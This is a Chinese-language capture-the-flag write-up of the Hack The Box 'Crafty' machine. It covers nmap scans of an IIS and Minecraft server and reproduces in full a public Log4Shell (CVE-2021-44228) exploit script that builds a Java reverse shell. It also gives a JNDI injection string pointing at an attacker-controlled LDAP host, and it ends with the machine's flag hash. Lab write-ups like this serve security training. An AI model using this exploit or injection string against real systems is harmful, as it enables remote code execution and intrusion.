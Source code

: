 ```yaml
---
title: 'HTB: Crafty'
date: 2024-02-15 10:24:13
categories:
- Machines
- Lab
tags:
- HTB
- easy
- season4
---
```


![image-20240215103145148](../images/image-20240215103145148.png)

nmap扫描

```bash
┌──(kali㉿kali)-[~/htb/Crafty]
└─$ nmap -p- --min-rate 10000 10.10.11.249 -oN nmap
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-14 21:30 EST
Nmap scan report for 10.10.11.249 (10.10.11.249)
Host is up (0.29s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 67.38 seconds
```

```bash
┌──(kali㉿kali)-[~/htb/Skyfall]
└─$ nmap -p80,25565 -sC -sV --min-rate 10000 10.10.11.249 -oN nmap2
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-14 21:30 EST
Nmap scan report for 10.10.11.249 (10.10.11.249)
Host is up (0.37s latency).

PORT      STATE SERVICE   VERSION
80/tcp    open  http      Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://crafty.htb
25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 1/100)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.86 seconds

```

发现minecraft服务

![image-20240215104114632](../images/image-20240215104114632.png)

安装minecraft

![image-20240215104942211](../images/image-20240215104942211.png)

![image-20240215105602967](../images/image-20240215105602967.png)

![image-20240215113507825](../images/image-20240215113507825.png)

![image-20240215121254187](../images/image-20240215121254187.png)

（使用16版本的Demo的小bug进入服务器菜单直接连接10.10.11.249:25565）

![image-20240215121542903](../images/image-20240215121542903.png)

POC:

https://github.com/kozmer/log4j-shell-poc?tab=readme-ov-file&source=post_page-----1ad9eec96feb--------------------------------

```python
#!/usr/bin/env python3

import argparse
from colorama import Fore, init
import subprocess
import threading
from pathlib import Path
import os
from http.server import HTTPServer, SimpleHTTPRequestHandler

CUR_FOLDER = Path(__file__).parent.resolve()


def generate_payload(userip: str, lport: int) -> None:
    program = """
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

    public Exploit() throws Exception {
        String host="%s";
        int port=%d;
        String cmd="/bin/sh";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
    }
}
""" % (userip, lport)

    # writing the exploit to Exploit.java file

    p = Path("Exploit.java")

    try:
        p.write_text(program)
        subprocess.run([os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/javac"), str(p)])
    except OSError as e:
        print(Fore.RED + f'[-] Something went wrong {e}')
        raise e
    else:
        print(Fore.GREEN + '[+] Exploit java class created success')


def payload(userip: str, webport: int, lport: int) -> None:
    generate_payload(userip, lport)

    print(Fore.GREEN + '[+] Setting up LDAP server\n')

    # create the LDAP server on new thread
    t1 = threading.Thread(target=ldap_server, args=(userip, webport))
    t1.start()

    # start the web server
    print(f"[+] Starting Webserver on port {webport} http://0.0.0.0:{webport}")
    httpd = HTTPServer(('0.0.0.0', webport), SimpleHTTPRequestHandler)
    httpd.serve_forever()


def check_java() -> bool:
    exit_code = subprocess.call([
        os.path.join(CUR_FOLDER, 'jdk1.8.0_20/bin/java'),
        '-version',
    ], stderr=subprocess.DEVNULL, stdout=subprocess.DEVNULL)
    return exit_code == 0


def ldap_server(userip: str, lport: int) -> None:
    sendme = "${jndi:ldap://%s:1389/a}" % (userip)
    print(Fore.GREEN + f"[+] Send me: {sendme}\n")

    url = "http://{}:{}/#Exploit".format(userip, lport)
    subprocess.run([
        os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/java"),
        "-cp",
        os.path.join(CUR_FOLDER, "target/marshalsec-0.0.3-SNAPSHOT-all.jar"),
        "marshalsec.jndi.LDAPRefServer",
        url,
    ])


def main() -> None:
    init(autoreset=True)
    print(Fore.BLUE + """
[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc
""")

    parser = argparse.ArgumentParser(description='log4shell PoC')
    parser.add_argument('--userip',
                        metavar='userip',
                        type=str,
                        default='localhost',
                        help='Enter IP for LDAPRefServer & Shell')
    parser.add_argument('--webport',
                        metavar='webport',
                        type=int,
                        default='8000',
                        help='listener port for HTTP port')
    parser.add_argument('--lport',
                        metavar='lport',
                        type=int,
                        default='9001',
                        help='Netcat Port')

    args = parser.parse_args()

    try:
        if not check_java():
            print(Fore.RED + '[-] Java is not installed inside the repository')
            raise SystemExit(1)
        payload(args.userip, args.webport, args.lport)
    except KeyboardInterrupt:
        print(Fore.RED + "user interrupted the program.")
        raise SystemExit(0)


if __name__ == "__main__":
    main()
```



![image-20240215123209509](../images/image-20240215123209509.png)

```
${jndi:ldap://10.10.16.7:1389/a}
```

![image-20240215124924798](../images/image-20240215124924798.png)

不让发消息

使用其他方法

https://github.com/ammaraskar/pyCraft

![image-20240215125024076](../images/image-20240215125024076.png)

![image-20240215125118520](../images/image-20240215125118520.png)

```
91af04e7082335d1ca05e19d51577e71
```




